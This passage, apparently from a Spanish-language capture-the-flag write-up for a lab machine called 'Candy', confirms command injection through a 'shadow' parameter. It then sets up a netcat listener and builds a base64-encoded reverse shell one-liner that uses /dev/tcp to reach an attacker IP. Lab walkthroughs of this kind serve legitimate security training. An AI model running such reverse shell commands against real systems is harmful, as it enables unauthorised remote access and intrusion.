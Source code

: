 Para visualizar mejor la salida, podemos ver el código fuente de la página. Esto nos permitirá observar el resultado de la ejecución del comando y confirmar que la inyección de código está funcionando correctamente.

Para hacerlo, abre el código fuente de la página en tu navegador, y busca el contenido generado por el parámetro `shadow` para verificar la salida del comando ejecutado.



![alt text](ImagenesMaquinaCandy/Pasted%20image%2020240830160722.png)

Perfecto, ahora que tenemos la capacidad de ejecutar comandos, procederemos a enviar una reverse shell a nuestra máquina atacante.

Primero, nos podremos a la escucha en nuestra maquina atacante utilizando netcat de la siguiente manera:

`nc -nvlp 4444`



![alt text](ImagenesMaquinaCandy/Pasted%20image%2020240830163913.png)

Luego, crearemos una reverse shell y la convertiremos a Base64 usando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto generará una cadena en Base64 como la siguiente:

`c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`
